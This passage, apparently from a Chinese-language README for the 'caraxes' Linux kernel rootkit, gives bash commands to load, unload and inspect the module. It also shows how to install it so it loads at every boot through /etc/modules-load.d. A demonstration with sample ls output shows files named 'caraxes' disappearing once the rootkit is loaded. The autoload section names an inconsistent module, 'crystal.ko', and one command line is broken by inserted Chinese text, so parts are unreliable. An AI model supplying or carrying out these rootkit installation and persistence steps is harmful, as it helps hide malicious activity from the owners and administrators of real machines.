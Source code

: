 ```bash
sudo rmmod caraxes
```

#### 查看模块信息

```bash
modinfo caraxes.ko
```

#### 自动加载

- 安装模块到当前内核目录： sudo install -Dm644 crystal.ko /lib/modules/$(uname -r)/extra/crystal.ko
- 更新模块依赖： sudo depmod -a $(uname -r)
- 设为开机自动加载： echo crystal | sudo tee /etc/modules-load.d/crystal.conf
- 立即验证不重启： sudo systemctl restart systemd-modules-load ；检查： lsmod | grep crystal 或 dmesg | tail
- 如需设置模块参数： sudo tee /etc/modprobe.d/crystal.conf <<<'options crystal <参数>=<值>'

```bash
sudo install -Dm644 crystal.ko /lib/modules/$(uname -r)/extra/crystal.ko
sudo depmod -a $(uname -r)
sudo echo crystal | sudo tee /etc/modules-load.d/crystal.conf
sudo systemctl restart systemd-modules-load 
sudo lsmod | grep crystal 或 dmesg | tail
```

### 功能演示

测试 rootkit 的文件隐藏功能：

```bash
# 1. 查看当前目录文件
ls

# 2. 加载 rootkit
sudo insmod caraxes.ko

# 3. 再次查看目录 - 包含 "caraxes" 的文件将被隐藏
ls

# 4. 卸载 rootkit
sudo rmmod caraxes

# 5. 文件重新可见
ls
```

**示例输出：**

```bash
ubuntu@ubuntu:~/caraxes$ ls
LICENSE         README.md   caraxes.mod    caraxes.o         hooks.h             modules.order
Makefile        caraxes.c   caraxes.mod.c  caraxes_logo.svg  hooks_filldir.h     rootkit.h
Module.symvers  caraxes.ko  caraxes.mod.o  ftrace_helper.h   hooks_getdents64.h  stdlib.h

ubuntu@ubuntu:~/caraxes$ sudo insmod caraxes.ko

ubuntu@ubuntu:~/caraxes$ ls
LICENSE   Module.symvers  ftrace_helper.h  hooks_filldir.h     modules.order  stdlib.h
Makefile  README.md       hooks.h          hooks_getdents64.h  rootkit.h

ubuntu@ubuntu:~/caraxes$ sudo rmmod caraxes

ubuntu@ubuntu:~/caraxes$ ls
LICENSE         README.md   caraxes.mod    caraxes.o         hooks.h             modules.order
Makefile        caraxes.c   caraxes.mod.c  caraxes_logo.svg  hooks_filldir.h     rootkit.h
Module.symvers  caraxes.ko  caraxes.mod.o  ftrace_helper.h   hooks_getdents64.h  stdlib.h
```
